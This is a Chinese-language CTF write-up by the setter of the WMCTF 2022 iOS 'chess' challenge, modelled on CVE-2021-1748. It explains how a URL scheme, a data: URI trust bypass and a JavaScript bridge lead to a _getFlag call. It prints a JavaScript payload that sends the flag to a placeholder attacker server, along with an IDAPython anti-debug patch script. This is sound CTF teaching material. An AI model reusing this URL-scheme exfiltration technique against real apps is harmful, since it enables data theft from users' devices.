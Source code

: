```yaml
---
title: WMCTF 2022 挑战赛 chess writeup
publish_date: 2022-08-22
---
```


### 写在前面

有幸受邀给 WMCTF 2022 出一道客户端的赛题。而传统的客户端 CTF 一般无论是以游戏的形式展示或者单纯一个输入框，都是客户端内置了一个算法，需要选手去逆向这个算法来拿到 flag。受到 Real World CTF 2019 中 [DezhouInstrumenz](https://github.com/ChiChou/DezhouInstrumenz) 的启发，决定出一个贴近真实环境的，真正能给选手挖洞提供思路参考的题目。于是就有了这道参考**著名白帽黑客 CodeColorist 的 CVE-2021-1748 来出的一道题目**（由于该 CVE 影响范围较广且具有比较严重的危害，所以题目进行了一定的魔改）。

### 解题过程

首先拿到 IPA 解压缩之后发现在 Bundle 中存在一个名为 flag 文件，文件内容为 {placeholder}。且根据赛题得知有一台真实 iPhone 在后端运行，则可知存在真正的 flag 的 App 正运行在该 iPhone 当中。

查看 Bundle 中的 Info.plist 文件可发现应用注册一个 URL Scheme，为 `chess://`：

![6303269930df1](../wmctf_2022_chess_writeup/6303269930df1.png)

将二进制扔到 IDA 进行分析，查看应用 URL Scheme 的关键回调逻辑：

![image.png](../wmctf_2022_chess_writeup/630339a0499fe.png)

继续跟进 `_showExternalURL`：

![image.png](../wmctf_2022_chess_writeup/630339df7bb9e.png)

代码中存在两处内联汇编的反调试逻辑，选手可以通过静态匹配特征来 patch：

![image.png](../wmctf_2022_chess_writeup/63033a628fe0e.png)

在 `showExternalURL` 函数中遇到第一个判断：

![image.png](../wmctf_2022_chess_writeup/63033b492377b.png)

通过动态调试跟进函数看下判断的逻辑：

![image.png](../wmctf_2022_chess_writeup/Xnip2022-08-22_16-20-07.png)

该部分代码大意为：如果 URL 的参数中存在 urlType=exit 或者 search 或者 web 时则返回 true。

当判断返回 true 时则跳进第一个分支 `_legacyResolveExternalURL` 函数中：

![image.png](../wmctf_2022_chess_writeup/63033d22e1f7d.png)

继续跟进 `resolveURL` 函数中：

![Xnip20220822_162741.png](../wmctf_2022_chess_writeup/Xnip2022-08-22_16-27-41.png)

在 `_showAccountViewControllerWithURL` 函数中会先取传入 URL 中的 url 参数字段，并弹出新的控制器进行加载：

![image.png](../wmctf_2022_chess_writeup/63033ef006333.png)

我们可以看到新弹出的控制器是用`UIHostingController` 包装的 `ContentWebView`。

在 SwiftUI 中如何实现一个 WebView 参考链接：https://www.appcoda.com/swiftui-wkwebview/

寻找 `makeUIView` 函数来看下应用是如何处理构造 URLRequest 的，关键代码：

![image.png](../wmctf_2022_chess_writeup/630340ae598cc.png)

先调用了 `_URLByRemovingBlacklistedParametersWithURL` 函数，在该函数中进行了一些特殊符号的过滤，并且在 URL 的结尾添加了一个 `?` 符号。

接下来调用 `urlIsTrusted` 进行了一次判断：

![image.png](../wmctf_2022_chess_writeup/63034fae242c0.png)

在该函数中存在一段逻辑，当传入的 URL 的 Scheme 为 data 时，则返回  true。也就是说当传入 URL 是个 Data URi 时则认为该 URL 是个可信的 URL。

当传入的 URL 是一个可信 URL 时，则调用 `injectScriptInterface` ，并且加载 URL：

![image.png](../wmctf_2022_chess_writeup/630350565b093.png)

让我们跟进 `injectScriptInterface` 看下关键逻辑：

![Xnip20220822_175321.png](../wmctf_2022_chess_writeup/Xnip2022-08-22_17-53-21.png)

可以看到将 `WMScriptInterface` 类的方法导出到 js 上下文中，这些 API 被放在全局作用域的 `wmctf` 命名空间里。

然后我们在 IDA 中搜索，惊喜的发现有个 `-[chess.WMScriptInterface _getFlag]` 的函数：

![image.png](../wmctf_2022_chess_writeup/630352619b9c1.png)

此时我们得知可以一个构造 payload 然后通过 URL Scheme 调起 chess 客户端，并执行 `wmctf.$_getFlag()` 来获取到 flag。

构造生成 Payload 的 js 代码：

```javascript
String.prototype.toDataURI = function() {
  return 'data:text/html;,' + encodeURIComponent(this).replace(/[!'()*]/g, escape);
}

function payload() {  
  var xhr = new XMLHttpRequest(); xhr.open('GET', 'http://XXX/test?flag=' + wmctf.$_getFlag(), false); xhr.send();
}

const data = `<script type="application/javascript">(${payload})()<\/script>`.toDataURI()
const url = new URL('chess://x?urlType=web');

url.searchParams.set('url', data);
url.toString()
```

只要将该 URL Scheme 提交（我写了个 webserver，用来接收 payload 并在设备执行），则会在设备执行，并且将 flag 发送到攻击者的服务器。

IDAPython Ptach `svc 0x80`:

``` Python
import idc
def text_seg_addr_start():
    for seg in Segments():
        if SegName(seg) == '__text':
            addr = hex(SegStart(seg))
            print("text segment address start: " + addr)
            return int(addr[0:-1], 16)
def text_seg_addr_end():
    for seg in Segments():
        if SegName(seg) == '__text':
            addr = hex(SegEnd(seg))
            print("text segment address end: " + addr)
            return int(addr[0:-1], 16)       
start = text_seg_addr_start()
end = text_seg_addr_end()
while start < end:
    m = idc.print_insn_mnem(start)
    n = idc.print_operand(start, 0)
    if m == 'SVC' and n == '0x80':
        # print(idc.GetDisasm(start))
        if idc.print_operand(idc.prev_head(start), 1) == '#0x1A':
            idc.PatchDword(start, 0xD503201F)
            print("patch {} success!".format(hex(start)))
    start += 4
```

### 彩蛋：

当用 js 调用 wmctf 命名空间中一个不存在的方法时，则会返回一段 base64 编码的图片字符串！

### 参考资料

https://codecolor.ist/2021/08/04/mistuned-part-i/
https://developer.apple.com/documentation/objectivec/nsobject/webscripting?language=objc
https://developer.apple.com/documentation/objectivec/nsobject/1528539-webscriptname/
https://developer.apple.com/library/archive/documentation/AppleApplications/Conceptual/SafariJSProgTopics/ObjCFromJavaScript.html
